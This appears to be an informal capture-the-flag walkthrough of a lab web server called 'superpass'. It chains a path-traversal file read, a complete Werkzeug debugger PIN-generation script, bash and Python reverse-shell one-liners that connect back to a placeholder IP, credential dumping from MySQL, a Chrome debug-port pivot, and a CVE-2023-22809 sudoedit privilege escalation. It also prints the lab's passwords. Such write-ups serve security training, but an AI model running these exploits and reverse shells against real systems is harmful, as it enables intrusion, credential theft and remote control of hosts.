 ```
Nmap scan report for superpass.htb (10.10.11.203)
Host is up (0.067s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f4bcee21d71f1aa26572212d5ba6f700 (ECDSA)
|_  256 65c1480d88cbb975a02ca5e6377e5106 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: SuperPassword \xF0\x9F\xA6\xB8
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel


```


register an account


http://superpass.htb/account/login 	-> Logs in
http://superpass.htb/account/register   -> register



once registered we are redirected on /vault


when we attempt export password there's a download?fn=nome_Utente.csv


```html
GET /download?fn=c0der_export_5e189b8b7f.csv HTTP/1.1
Host: superpass.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: remember_token=13|8698c417d7d6209988a3150be56783965751c1533f6ce66e22cb04b48fca8aa34c0ed83b671e15d0e3547823ffcf10c608adf13be78c08637a7d0052f4ba455d; session=.eJwlzjsOwjAMANC7ZGZw7Dhxepkq_gnWlk6Iu1OJd4L3KXsecT7L9j6ueJT95WUraEKjCeiM2pA1pgKjEGTAmiMkmVQBVjfPsdSZyDPdwTtDLICYSGYMNw624YvEsKsMaki8CJHTiRaBYyJWtUjhpiwDarkj1xnHf1OpfH_tyy86.ZFStwA.NmS5PicNV-Lr2qQGRV85YCkWSFU
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```







## LFI Vulnerability found





lfi in download?fn=../app/app/superpass/views/vault_views.py  --- app.py

 
/download?fn=../app/venv/lib/python3.10/site-packages/werkzeug/debug/__init__.py 


this reveal a werkezeug debugger 






## CONSOLE

http://superpass.htb/download?fn=app does not exist and point on werkezeug debugger


```
Console Locked

The console is locked and needs to be unlocked by entering the PIN. You can find the PIN printed out on the standard output of your shell that runs the server. 
```


found this [article](https://github.com/wdahlenburg/werkzeug-debug-console-bypass) which explain how to recover the pin trought LFI 



`/proc/net/arp` reveals which interface is hosting the web app



`/sys/class/net/eth0/address`

1) MAC : 00:50:56:b9:47:0c

>>> "".join("00:50:56:b9:47:0c".split(":"))


Convert from hex address to decimal representation by running in python 
>>> print(0x005056b9470c)


345052366604




2) /etc/machine-id ed5b159560f54721827644bc9b220d00

3) boot_id dd9ae1bc-c58b-4dc3-a39e-01ebd04a8440



use the exploit and insert into debug mode !

```py
#!/usr/bin/env python3
import os
import hashlib
from itertools import chain

def genpin(modname, appname):
    pin = os.environ.get("WERKZEUG_DEBUG_PIN")
    rv = None
    num = None

    if pin is not None and pin.replace("-", "").isdecimal():
        if "-" in pin:
            rv = pin
        else:
            num = pin

    probably_public_bits = [
        'www-data',  # username
#        'flask.app',  # modname
        modname,
#        'Flask',  # getattr(app, '__name__', type(app).__name__)
        appname,
        '/app/venv/lib/python3.10/site-packages/flask/app.py'  # getattr(mod, '__file__', None)
    ]

    private_bits = [
        '345052366604',    # str(uuid.getnode())...MAC address
        'ed5b159560f54721827644bc9b220d00superpass.service'  # get_machine_id()...machine-id
    ]

    h = hashlib.sha1()
    for bit in chain(probably_public_bits, private_bits):
        if not bit:
            continue
        if isinstance(bit, str):
            bit = bit.encode("utf-8")
        h.update(bit)
    h.update(b"cookiesalt")

    if num is None:
        h.update(b"pinsalt")
        num = f"{int(h.hexdigest(), 16):09d}"[:9]

    if rv is None:
        for group_size in 5, 4, 3:
            if len(num) % group_size == 0:
                rv = "-".join(
                    num[x : x + group_size].rjust(group_size, "0")
                    for x in range(0, len(num), group_size)
                )
                break
        else:
            rv = num

    #return rv
    print(rv)

def main():
    modnames = ['flask.app', 'werkzeug.debug']
    appnames = ['wsgi_app', 'DebuggedApplication', 'Flask']

    for mod in modnames:
        for app in appnames:
            genpin(mod, app)

if __name__ == '__main__':
    main()  

```
## PIN

765-848-989




use genpin to gen pin werkzeug debuggger 

now get shell is pretty simple 

https://exploit-notes.hdks.org/exploit/web/framework/python/werkzeug-pentesting/

```py
__import__('os').popen('bash -c "bash -i >& /dev/tcp/IP/PORT 0>&1"').read()

```


sql pass in /app/config_prod.json 
`{"SQL_URI": "mysql+pymysql://superpassuser:dSA6l7q*yIVs$39Ml6ywvgK@localhost/superpass"}`


so in mysql we can find user and password 


```
+----+---------------------+-------
| username | password             |
+----+---------------------+-------
| 0xdf     | 762b430d32eea2f12970 |
| 0xdf     | 5b133f7a6a1c180646cb |
| corum    | 47ed1e73c955de230a1d |
| corum    | 9799588839ed0f98c211 |
| corum    | 5db7caa1d13cc37c9fc2 |
+----+---------------------+-------

```



## ssh creds 

corum : 5db7caa1d13cc37c9fc2

in /opt/ find google/chrome 

we are lucky couse 

ps -eaf --forest | grep chrome 

reveals debug 

`\_ chromedriver --port=41829`


ssh corum@10.10.11.203 -L 41829:127.0.0.1:41829


and go on chrome://inspect once configured on that port find a remote target that is the chrome of the machine 




## chrome exploits edwards password 

edwards : d07867c6267dcb5df0af


## Privilega Escalation

sudo -l reveals 

```bash
User edwards may run the following commands on agile:
    (dev_admin : dev_admin) sudoedit /app/config_test.json
    (dev_admin : dev_admin) sudoedit /app/app-testing/tests/functional/creds.txt

```


I can't venv activate but i remember that's a tool for that so [pspy64](https://github.com/DominicBreuker/pspy) can do it without root permission




and then i found the sodo version affected to https://github.com/n3m1dotsys/CVE-2023-22809-sudoedit-privesc/blob/main/exploit.sh

CVE-2023-22809



with export EDITOR="vim -- /app/venv/bin/activate" 

we can craft the json .... and python3 reverse shell can give the root permission!


## Payload json


```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

`sudo -u dev_admin sudoedit /app/config_test.json`














